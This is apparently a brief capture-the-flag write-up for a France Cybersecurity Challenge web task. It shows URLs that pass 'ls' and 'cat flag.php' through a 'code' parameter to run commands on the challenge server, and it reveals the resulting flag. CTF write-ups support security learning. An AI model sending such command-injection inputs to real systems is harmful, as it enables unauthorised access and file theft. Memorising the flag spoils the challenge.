 First step : 
```powershell http://challenges2.france-cybersecurity-challenge.fr:5001/```
Second step : 
```powershell http://challenges2.france-cybersecurity-challenge.fr:5001/?source=1```
Third step : 
```powershell http://challenges2.france-cybersecurity-challenge.fr:5001/?code=ls```
Fourth step : 
```powershell http://challenges2.france-cybersecurity-challenge.fr:5001/?code=cat%20flag.php```

And look the source code : 

<pre><?php
	$flag = "FCSC{5d969396bb5592634b31d4f0846d945e4befbb8c470b055ef35c0ac090b9b8b7}";
<pre>
